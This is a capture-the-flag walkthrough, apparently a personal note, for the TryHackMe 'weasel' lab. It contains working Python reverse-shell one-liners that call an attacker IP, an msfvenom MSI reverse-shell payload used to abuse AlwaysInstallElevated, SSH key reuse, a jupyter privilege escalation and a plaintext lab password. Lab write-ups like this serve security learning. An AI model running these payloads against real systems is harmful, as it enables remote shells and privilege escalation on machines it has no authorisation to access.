

Using the token from [[Hacking/TryHackMe/weasel/445]] we can login
Now logging in:

We can try running a python revshell:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.226",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Now we get a shell back running penelope:
```
penelope.py 8000
```

We are actually in WSL 


We might have ssh keys.

Infact it is an ssh key:



Now trying to login:
```
ssh dev-datasci-lowpriv@10.10.223.102 -i id_ed25519
```
We are in:


Now resuming the jupyter privesc:

There isnt a file like that.

Now finding jupyter
```
locate jupyter
```


We can copy one of these:
```
cp /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter
```
Now we can run jupyter console:


Now trying the revshell command again:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.226",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Now we get a shell in  penelope:
```
penelope.py 443
```

We are root.
Now mount c:/ drive in linux:
```
mount -t drvfs 'c:' /mnt/c
```

We can get the flag from administrator desktop.


# Method 2

Alwaysinstallelevated is turned on.


We have credentials as well:

Craft a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.103.226 LPORT=8000 -f msi > setup.msi
```

```
 runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\setup.msi"
```
Now enter the password `wUqnKWqzha*W!PWrPRWi!M8faUn`

Now we get an elevated shell.
